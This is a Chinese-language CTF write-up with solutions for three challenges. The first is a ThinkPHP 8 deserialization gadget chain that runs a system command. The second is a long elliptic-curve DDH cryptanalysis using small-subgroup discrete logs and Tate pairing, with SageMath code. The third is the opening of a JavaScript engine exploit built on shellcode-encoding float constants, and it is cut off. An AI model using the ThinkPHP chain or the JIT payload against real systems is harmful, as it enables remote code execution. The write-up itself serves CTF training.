




丢。

<!--more-->

# Web

## ezthink

Thinkphp 8 反序列化链构造

路由访问的规则是 `POST ``http://127.0.0.1:8888/xctf/hecker`

https://xz.aliyun.com/t/12630#toc-3 tp6.0.12 的后半段在 tp8 中依然存在

只需要找到从 `__destruct` 到 `__toString` 即可

```PHP
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "cat /flag"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

class Route {}

abstract class Model
{
    use \think\model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
namespace think\model;
class Pivot extends \think\Model{

}

namespace think\route;
class Resource {
    public function __construct()
    {
        $this->router = new \think\Route();
        $this->rule = "1.2.3";
        $this->option = ["var" => ["1" => new \think\model\Pivot()]];
    }
}
class ResourceRegister
{
    protected $resource;
    protected $registered = false;
    public function __construct()
    {
        $this->registered = false;
        $this->resource = new Resource();
    }
    public function __destruct()
    {
        if (!$this->registered) {
            $this->register();
        }
    }
    protected function register()
    {
        $this->registered = true;
        $this->resource->parseGroupRule($this->resource->getRule());
    }
}

$obj = new ResourceRegister();
echo "out:\n";
echo base64_encode(serialize($obj));
```



# Crypto

## Cu2ve

比赛时用的是题目的非预期解，所以先说一下非预期解

### 非预期解

题目给定E1曲线上的点P、xP、yP和zP，以及曲线E2上的点Q和yQ，需要解一个曲线E1或E2上的DDH问题

首先DDH问题可以规约到CDH问题，或者说DLP，即如果可以解CDH或DLP的话就可以解DDH

然后理论上CDH和DLP都是难解的，但对曲线E1的解n进行分解后发现有一个小因子500

于是E1就有一个阶为500（或者500的因子）的小阶群，如果把P、xP、yP和zP都转换到这个小阶群中，就可以通过枚举解决DLP问题，如果熟悉Pohlig-Hellman算法的话应该对这个不陌生

最后经过以上操作后理论上可以解出x、y和z（mod 500），然后在模500的情况下检测是否z = xy即可恢复prp的state

以下为参考代码：

```Python
p = 176857581480948244867604802349863732783663856225560523858099969581030268141874483416875345636657439749959951621
n = 176857581480948244867604802349863732783663856225560523834310386551077128936406127697123918346523659026470270500
A = 1

m = 100
F1 = GF(p)
F2.<u> = GF(p^2)
E1 = EllipticCurve(F1,[A,0]) 

'''
for k in range(100):
  print(gcd(n, p^k-1))
'''
ns = [500, 158465746173819028262477785344468517, 2232123796482243553563388394642252242447624758532104909445052499370196473]

with open('./output.txt', 'r') as f:
  data = f.read().split('\n')
exec(data[0])
exec('output = %s' % data[1])

st = []
for i in range(len(output)):
  s = n // ns[0]
  P, xP, yP, zP = [E1(_) for _ in output[i][:4]]
  sp, sxp, syp, szp = [s * _ for _ in (P, xP, yP, zP)]
  x = []
  y = []
  z = []
  for j in range(ns[0]):
    if j * sp == sxp:
      x += [j]
    if j * sp == syp:
      y += [j]
    if j * sp == szp:
      z += [j]

  xy = []
  for xi in x:
    for yi in y:
      xy += [Integer(xi * yi % ns[0])]
  xy = list(set(xy))
  s = 1 - Integer(set(xy) & set(z) == set())
  print(s)
  st += [s]
print(st)


'''
[0, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 0, 1, 1, 0, 1, 0, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 0, 0, 1, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 1, 0, 0, 1, 1, 0, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 0, 0, 0, 1, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 0, 0, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 0, 0, 1, 1, 0, 1, 1, 0, 1, 1, 0, 1, 1, 0, 1, 0, 0, 0, 1, 0, 1, 1, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 1, 0, 0, 1, 0, 1, 1, 1, 0, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 0, 0, 1, 1, 1, 1, 0, 1, 1, 1, 1, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 1, 1, 1, 0, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 0, 0, 0, 0, 1, 1, 0, 1, 0, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 1, 0, 0, 1, 0, 1, 0, 1, 1, 1, 1, 0, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 0, 0, 1, 0, 0, 0, 1, 0, 1, 1, 0, 1, 1, 1, 1, 0, 1, 1, 0, 0, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 0]
'''
```

在以上代码中，由于那四个点可能会处于阶更小（500的因子）的子群中，所以可能会出现多个解，我的做法是选择把得到的所有xy和z都放到集合中，然后检查两个集合是否有交集，如果没交集的话说明这个z与xy不相等

但是如果有交集的话，则不一定是z = xy，也有可能是点所处的子群阶太小了，导致出现误差，幸好题目给的数据有冗余，所以可以用冗余的数据消除这个误差

我的做法是，首先根据题目的twist函数写出逆函数unTwisit，然后把每一组的数据（100个一组）都unTwisit到同一个状态点，即开始的状态

然后对比此时的每组数据是否相同，如果有某个位置中，一组数据中为1而另一组数据为0的话，那么这个位置应该为0，因为根据上面说的，0保真，而1不保真

除杂完后还要做一次unTwisit，因为prp初始化时就做了一次twist，最后因为加密函数是一个OTP，所以用题目给的encrypt函数解密即可

以下为参考代码：

```Python
from hashlib import shake_128

c = 'dbc2eddcafdbd5d2dbc1b92cb32b4d6a604950c127a9d77007ee81bf'
c = bytes.fromhex(c)
st = [0, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 0, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 0, 1, 1, 0, 1, 0, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 0, 0, 1, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 1, 0, 0, 1, 1, 0, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 0, 0, 0, 1, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 0, 0, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 0, 0, 1, 1, 0, 1, 1, 0, 1, 1, 0, 1, 1, 0, 1, 0, 0, 0, 1, 0, 1, 1, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 1, 0, 0, 1, 0, 1, 1, 1, 0, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 0, 0, 1, 1, 1, 1, 0, 1, 1, 1, 1, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1, 0, 0, 1, 1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 0, 1, 1, 1, 0, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 1, 1, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1, 1, 0, 1, 0, 0, 0, 0, 1, 1, 0, 1, 0, 0, 1, 0, 1, 1, 0, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 1, 1, 0, 0, 1, 0, 1, 0, 1, 1, 1, 1, 0, 1, 1, 0, 1, 0, 1, 1, 0, 1, 1, 1, 1, 1, 0, 1, 1, 0, 0, 1, 0, 0, 0, 1, 0, 1, 1, 0, 1, 1, 1, 1, 0, 1, 1, 0, 0, 0, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 1, 0, 0, 0]

twsit_state = [ 76, 5, 29, 61, 62, 54, 66, 69, 81, 48,
                20, 64, 14, 77, 50, 79, 71, 40, 93, 58,
                59, 19, 31, 63,  2, 96, 35, 18, 85, 56,
                21, 33,  7, 99, 17, 38, 97, 89, 74, 32,
                27, 42,  3, 82, 91, 41, 86,  9, 13, 30,
                11, 87,  1, 88, 26, 67, 25, 75, 94, 45,
                68, 39, 55, 16, 28, 57, 49, 37, 52, 22,
                70, 36,  0,  8, 65, 72, 43, 12, 23, 53,
                51, 60,  4, 46, 83, 90, 84, 92, 24, 15,
                80, 98, 34, 78, 95, 44, 73, 10,  6, 47]
tmp = list(range(100))
uts = [0 for _ in range(100)]
for i in range(100):
    uts[twsit_state[i]] = tmp[i]
st = [st[100*i: 100*(i+1)] for i in range(7)]

def twist(s):
    return [s[twsit_state[i]] for i in range(100)]

def unTwisit(s):
    return [s[uts[i]] for i in range(100)]

#print(twist(unTwisit(st[1])) == st[1])
for i in range(len(st)-1):
    for _ in range(i):
        st[i] = unTwisit(st[i])
    #print(st[i])

s0 = st[0]
for i in range(1, len(st)-1):
    for j in range(100):
        if st[i][j] == 0:
            if s0[j] != 0:
                print(j)
                s0[j] = 0
print(s0)

def encrypt(msg, key):
    y = shake_128("".join(map(str, key)).encode()).digest(len(msg))
    return bytes([msg[i] ^ y[i] for i in range(len(msg))])

flag = encrypt(c, unTwisit(s0))
print(flag)

# b'flag{u_kn0w_curv3.h@v3_fun!}'
```

### （应该是）预期解

下面说一下可能的预期解，其实题目给的提示还是挺充足的

首先在ECC中，一种解DDH的方法是使用双线性配对（Billinear Pairing），教科书的内容，这里就不细说了

比如给P、xP、yP和zP的话，可以通过比较e(P, zP)和e(xP, yP)是否相同来解DDH问题，但在这里显然是不行的，一个原因是这四个点都在一个群里所以实测Pairing后结果都是1，另一个原因是这样的话点Q和yQ就没用了

在继续下面的内容之前，先看一下著名的Tate Pairing的定义



即如果要做Tate Pairing的话，就要n的因子里面有一个大素数r，和一个嵌入度k，满足r整除p^k-1

所以可以测试一下题目的曲线是否满足，怼个代码测试一下

假设能成的话，Pairing需要在Fp^k上做，所以这个k肯定不能太大，于是可以通过枚举，然后检查n和p^k-1是否有大的公因子来找到这个k和r

```Python
for k in range(100):
  print(gcd(n, p^k-1))
```

枚举到k=8的时候发现有大因子，然后顺便可以把n分解了（分解结果可见下面代码）

到这里的话可以发现题目已经提醒了用Tate Pairing，因为这样的k和r的出现其实是个小概率事件，所以一定是出题人特意构造的

如果直接用P、xP、yP和zP的话，即使Tate Pairing可能也不行，猜测可能是因为这四个点都处于同一个子群，于是就可以引入（大概率）与P不相关的点Q，然后比较e(zP, Q)与e(xP, yQ)是否相同来解DDH

但在做Pairing之前还需要解决一个问题，即点P和点Q不在同一条曲线上，就不能做Pairing

一种解决方法是，可以把P映射到E2中，或者Q映射到E1中再做，根据这个理论，赛中的时候找到一种Twist的映射



然后题目中的两条曲线刚好满足其中的d=4的情况



那么理论上只要把这个映射复现出来就好，但是比赛的时候一直没搞出来，就止步于此（反而搞出了非预期）

赛后问出题人要了WP，发现这个映射可以直接使用SageMath的isomorphism_to函数实现，不知道是不是同一个映射，直接用就对了。。。

首先需要把曲线E1(F1)和E2(F2)都扩展到E1(Fk)和E2(Fk)中，然后会发现此时E1(Fk)和E2(Fk)的阶相同（目前不清楚原理，盲猜和上面的Twist有关），阶相同就可以直接用isomorphism_to构造一个同态，把点都映射到E1(Fk)中

在这一步中，E1(F1) -> E1(Fk)是简单的，而E2(F2) -> E2(Fk)会相对麻烦一点（由于两个有限域模的不可约多项式不一样吧），但可以直接用SageMath的Hom方法做映射

最后在E1(Fk)中发现已经有一部分点可以做Tate Pairing了，按照上面的思路解DDH即可

至于其他点为什么Tate Pairing的结果依然为1，目前原理未明（盲猜点还是在同一个子群），按出题人WP的说法是需要r整除n2且n不整除n2才可以

以下为参考代码：

```Python
p = 176857581480948244867604802349863732783663856225560523858099969581030268141874483416875345636657439749959951621
n = 176857581480948244867604802349863732783663856225560523834310386551077128936406127697123918346523659026470270500
A = 1

m = 100
F1 = GF(p)
F2.<u> = GF(p^2)
E1 = EllipticCurve(F1,[A,0]) 
#phi = Hom(F1, F2)(F1.gen().minpoly().roots(F2)[0][0])

pp1s = [6, 23132768335507557330794807, 1274221189295081422669971636513498766912631540632477236417739522967803097508257123591]
assert p+1 == product(pp1s)
pm1s = [2, 2, 5, 19, 89, 27697, 2814833442442190293, 570076955711836471445257, 117660627313120748111186257571248999930927680880103312633203]
'''
for k in range(100):
  print(gcd(n, p^k-1))
'''
assert p-1 == product(pm1s)
ns = [500, 158465746173819028262477785344468517, 2232123796482243553563388394642252242447624758532104909445052499370196473]

r = ns[-1]
ndr = n // r
for k in range(1, 100):
  if (p^k-1) % r == 0:
    break
print('r = %d' % r)
print('k = %d' % k)

with open('./../../output.txt', 'r') as f:
  data = f.read().split('\n')
exec(data[0])
exec('output = %s' % data[1])

Fk.<v> = GF(p^k)
Ek1 = EllipticCurve(Fk,[A,0]) 
phiF_2_k = Hom(F2, Fk)(F2.gen().minpoly().roots(Fk)[0][0])

def phiE_2_k2(Q, Ek2):
  x, y = [phiF_2_k(_) for _ in Q.xy()] 
  return Ek2([x, y])

st = []
for i in range(len(output)):
  x, y = output[i][4]
  a = (y^2 - x^3) * x^(-1)

  E2 = EllipticCurve(F2, [a, 0])
  Q, yQ = [E2(_) for _ in output[i][4:]]
  P, xP, yP, zP = [E1(_) for _ in output[i][:4]]

  Ek2 = EllipticCurve(Fk, [phiF_2_k(a),0])
  phiE_k2_k1 = Ek2.isomorphism_to(Ek1)

  Q, yQ = [phiE_2_k2(_, Ek2) for _ in (Q, yQ)]
  Q, yQ = [phiE_k2_k1(_) for _ in (Q, yQ)]
  P, xP, yP, zP = [Ek1(_) for _ in (P, xP, yP, zP)]
  P, xP, yP, zP = [ndr * _ for _ in (P, xP, yP, zP)]

  ez = zP.tate_pairing(Q, r, k)
  exy = xP.tate_pairing(yQ, r, k)
  if ez == 1 and exy == 1:
    st += [None]
  elif ez == exy:
    st += [1]
  else:
    st += [0]

  print('%d\t%s' % (i, st[-1]))

print(st)
  

'''
Sage10 -> faster
[None, None, None, None, None, None, None, 1, 1, 0, None, None, 1, None, None, None, None, None, None, None, 0, 0, 1, None, 1, None, 0, 0, 1, 1, None, None, None, 1, None, 0, None, None, 1, None, 0, None, 1, None, None, None, None, None, None, 0, None, None, None, None, None, 1, None, 1, None, None, None, None, None, None, None, None, None, None, 0, 0, None, None, None, None, None, 0, 0, 1, None, None, None, None, None, None, None, None, None, None, None, None, None, 0, 1, None, None, None, None, None, None, None, None, None, None, None, None, None, 0, 0, None, 1, None, 0, None, None, None, 0, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, 1, 1, None, 0, None, None, 1, 0, None, None, 1, None, None, None, 0, 0, 0, 0, 0, None, None, 1, 0, None, 1, 1, None, 1, None, None, None, None, None, 1, 1, None, 0, None, 1, None, None, None, 1, None, 0, None, None, None, None, None, None, None, None, 0, 0, None, None, None, 1, 1, 0, None, None, None, 1, None, None, None, None, 1, None, None, None, None, None, None, None, None, 0, 1, None, None, None, 1, None, None, 0, 0, None, None, 1, 1, None, 1, None, 1, None, None, None, None, None, None, 1, None, None, 0, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, 0, 0, None, None, 1, None, None, None, 0, 1, None, None, None, None, None, None, 1, 0, None, None, 0, None, 1, None, 0, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, 0, None, None, 1, None, None, None, None, None, None, 1, None, None, None, None, None, 0, None, 0, 1, None, 0, None, 1, None, None, 1, 0, None, None, None, None, None, None, None, None, None, 0, None, None, None, 0, None, None, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, 0, None, None, None, None, None, 0, None, None, None, None, None, 1, 0, None, None, None, None, None, 1, None, None, None, 1, None, None, None, None, 1, None, 0, None, 1, 1, 0, None, None, None, 0, None, None, None, None, None, 0, None, None, None, None, None, None, None, None, 0, None, None, None, 1, None, None, 0, None, None, None, None, None, 0, None, None, None, None, 1, None, 1, None, None, 1, None, None, 1, None, None, None, 0, 0, 1, None, None, 1, None, None, 1, 1, 0, None, None, None, None, None, None, 0, None, None, None, 0, None, None, None, None, None, None, 0, None, None, None, 1, None, None, None, None, None, None, None, None, 1, None, None, None, None, 0, None, 0, None, 1, 0, None, None, None, 1, None, 1, None, None, None, 1, None, 0, None, None, None, None, None, None, 1, None, None, 1, None, None, 0, None, None, None, None, 1, 0, None, None, None, None, 0, None, None, None, None, 1, None, 0, 0, None, None, None, None, None, 1, None, None, None, None, 0, 1, 1, None, None, None, 0, None, None, 0, None, None, 0, None, None, None, None, None, None, 0, 1, 1, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, None, 0, None, None, None, None, 0, None, 0, 1, 1, None, None, None, None, None, 1, 1, None, None, None, None, None, 0, None]
'''
```

解出来把所有数据组合后发现依然有16个比特是未知的，但2^16并不大，爆破即可

参考代码：

```Python
from hashlib import shake_128

c = 'dbc2eddcafdbd5d2dbc1b92cb32b4d6a604950c127a9d77007ee81bf'
c = bytes.fromhex(c)
st = [None, None, None, None, None, None, None, 1, 1, 0, None, None, 1, None, None, None, None, None, None, None, 0, 0, 1, None, 1, None, 0, 0, 1, 1, None, None, None, 1, None, 0, None, None, 1, None, 0, None, 1, None, None, None, None, None, None, 0, None, None, None, None, None, 1, None, 1, None, None, None, None, None, None, None, None, None, None, 0, 0, None, None, None, None, None, 0, 0, 1, None, None, None, None, None, None, None, None, None, None, None, None, None, 0, 1, None, None, None, None, None, None, None, None, None, None, None, None, None, 0, 0, None, 1, None, 0, None, None, None, 0, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, 1, 1, None, 0, None, None, 1, 0, None, None, 1, None, None, None, 0, 0, 0, 0, 0, None, None, 1, 0, None, 1, 1, None, 1, None, None, None, None, None, 1, 1, None, 0, None, 1, None, None, None, 1, None, 0, None, None, None, None, None, None, None, None, 0, 0, None, None, None, 1, 1, 0, None, None, None, 1, None, None, None, None, 1, None, None, None, None, None, None, None, None, 0, 1, None, None, None, 1, None, None, 0, 0, None, None, 1, 1, None, 1, None, 1, None, None, None, None, None, None, 1, None, None, 0, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, 0, 0, None, None, 1, None, None, None, 0, 1, None, None, None, None, None, None, 1, 0, None, None, 0, None, 1, None, 0, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, 0, None, None, 1, None, None, None, None, None, None, 1, None, None, None, None, None, 0, None, 0, 1, None, 0, None, 1, None, None, 1, 0, None, None, None, None, None, None, None, None, None, 0, None, None, None, 0, None, None, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, 0, None, None, None, None, None, 0, None, None, None, None, None, 1, 0, None, None, None, None, None, 1, None, None, None, 1, None, None, None, None, 1, None, 0, None, 1, 1, 0, None, None, None, 0, None, None, None, None, None, 0, None, None, None, None, None, None, None, None, 0, None, None, None, 1, None, None, 0, None, None, None, None, None, 0, None, None, None, None, 1, None, 1, None, None, 1, None, None, 1, None, None, None, 0, 0, 1, None, None, 1, None, None, 1, 1, 0, None, None, None, None, None, None, 0, None, None, None, 0, None, None, None, None, None, None, 0, None, None, None, 1, None, None, None, None, None, None, None, None, 1, None, None, None, None, 0, None, 0, None, 1, 0, None, None, None, 1, None, 1, None, None, None, 1, None, 0, None, None, None, None, None, None, 1, None, None, 1, None, None, 0, None, None, None, None, 1, 0, None, None, None, None, 0, None, None, None, None, 1, None, 0, 0, None, None, None, None, None, 1, None, None, None, None, 0, 1, 1, None, None, None, 0, None, None, 0, None, None, 0, None, None, None, None, None, None, 0, 1, 1, None, None, None, None, None, None, None, None, None, None, None, 1, None, None, None, None, None, None, None, None, None, None, None, 0, None, None, None, None, 0, None, 0, 1, 1, None, None, None, None, None, 1, 1, None, None, None, None, None, 0, None]

twsit_state = [ 76, 5, 29, 61, 62, 54, 66, 69, 81, 48,
                20, 64, 14, 77, 50, 79, 71, 40, 93, 58,
                59, 19, 31, 63,  2, 96, 35, 18, 85, 56,
                21, 33,  7, 99, 17, 38, 97, 89, 74, 32,
                27, 42,  3, 82, 91, 41, 86,  9, 13, 30,
                11, 87,  1, 88, 26, 67, 25, 75, 94, 45,
                68, 39, 55, 16, 28, 57, 49, 37, 52, 22,
                70, 36,  0,  8, 65, 72, 43, 12, 23, 53,
                51, 60,  4, 46, 83, 90, 84, 92, 24, 15,
                80, 98, 34, 78, 95, 44, 73, 10,  6, 47]
tmp = list(range(100))
uts = [0 for _ in range(100)]
for i in range(100):
    uts[twsit_state[i]] = tmp[i]
st = [st[100*i: 100*(i+1)] for i in range(7)]

def twist(s):
    return [s[twsit_state[i]] for i in range(100)]

def unTwisit(s):
    return [s[uts[i]] for i in range(100)]

#print(twist(unTwisit(st[1])) == st[1])
st[-1] += [None] * (100 - len(st[-1]))
for i in range(len(st)):
    for _ in range(i):
        st[i] = unTwisit(st[i])
    #print(st[i])

st2 = []
for i in range(100):
    st2 += [set([st[_][i] for _ in range(7)])]
    try:
        st2[-1].remove(None)
        st2[-1] = sorted(list(st2[-1]))
    except:
        pass
print(st2)
s0 = [6 if _==[] else _[0] for _ in st2]
s0 = unTwisit(s0)
print(s0)

key = ''.join(map(str, s0))
n = key.count('6')
key = key.replace('6', '%d')
print(key)
print(n)

import itertools
from tqdm import tqdm

for xxx in tqdm(itertools.product((0, 1), repeat=n), total=2^n):
    k = key % xxx
    y = shake_128(k.encode()).digest(len(c))
    flag = bytes([c[i] ^ y[i] for i in range(len(c))])
    if b'flag' in flag:
        print(k)
        print(flag)

'''
0111110111111111010000000000010101100101010001010011000011101111101101000011000101100111100110111001
b'flag{u_kn0w_curv3.h@v3_fun!}'
'''
```

参考文献：Guide to pairing-based cryptography[M]. CRC Press, 2017.

# Pwn

## 0ob

```JavaScript
let dogc_flag = false;

function foo() {
    return [
        1.0,
        1.95538254221075331056310651818E-246,
        1.95606125582421466942709801013E-246,
        1.99957147195425773436923756715E-246,
        1.95337673326740932133292175341E-246,
        2.63486047652296056448306022844E-284];
}
for (let i = 0; i < 0x100000; i++) {
    foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo(); foo();
